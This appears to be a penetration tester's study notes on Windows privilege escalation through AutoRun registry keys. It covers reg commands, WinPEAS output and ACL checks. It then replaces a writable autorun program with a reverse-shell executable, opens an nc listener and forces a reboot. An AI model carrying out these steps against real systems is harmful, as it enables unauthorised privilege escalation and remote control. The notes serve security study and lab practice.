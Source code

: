 
#windows #registry #privesc 

# AutoRuns

Windows can be configured to run commands at startup, with elevated privileges.
These "AutoRuns" are configured in the Registry.

If you are able to write to an AutoRun executable, and are able to restart the system ( or wait for it to be restarted ) you may be able to escalate privileges. 

HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : For all users
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : For user logged in 

## Commands for registry


```cmd
===>  req query <KEY_PATH> /v <name_value> /s /f <pattern>

reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" /v ProgramFilesDir
reg query "HKLM\SOFTWARE" /f "Windows" /s


===> reg add <KEY_PATH> /v <name_value> /t <data_type> /d <data> /f 

reg add "HKCU\Software\TestKey" /v TestValue /t REG_SZ /d "Ceci est une valeur" /f
reg add "HKLM\Software\TestKey" /v TestDWORD /t REG_DWORD /d 1 /f


===> reg delete <KEY_PATH> /v <name_value> /f

reg delete "HKCU\Software\TestKey" /v TestValue /f
reg delete "HKCU\Software\TestKey" /f


===> reg export <KEY_PATH> <Destination_Path> /y 

reg export "HKLM\SOFTWARE\TestKey" C:\Backup\TestKey.reg /y


===> reg import <.reg Path>

reg import C:\Backup\TestKey.reg



===> reg copy <SOURCE_PATH> <DESTINATION_PATH> /s /f 

reg copy "HKCU\Software\TestKey" "HKLM\Software\BackupKey" /s /f



```

#### Output WinPeas Applicationsinfo

```bash
[+] Autorun Applications(T1010)
    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run


```



# 1- Enumerate manually Autorun 

```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

 Result  
```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
Mware User Process    REG_SZ    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Checks ACLs of Autorun executables 

```cmd
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

```cmd
icacls "C:\Program Files\Autorun Program\program.exe"
```

```powershell
(Get-Acl "C:\Program Files\Autorun Program\program.exe").Access
```

Here program.exe run as user is logged 

# 2 - Copy payload executable to overwrite the program 

```cmd
copy /Y reverse.exe "C:\Program Files\Autorun Program\Program.exe"
```

# 3 - Set up another listener and restart Windows

```bash
sudo rlwrap nc -lvnp 53 
```

```cmd
shutdown /r /t 0
```

```powershell
Restart-Computer -ComputerName "PcName"
```

```cmd
wmic os where primary=true reboot
```

```cmd
taskkill /IM explorer.exe /F & shutdown /r /t 0
```

On Windows 10 , at least when the system restarts , it seems to run the command with the privileges of the user who was last logged in to avoid this causing issues.

To avoid this causing issues we log out of the user accout and log as the admin account and restart 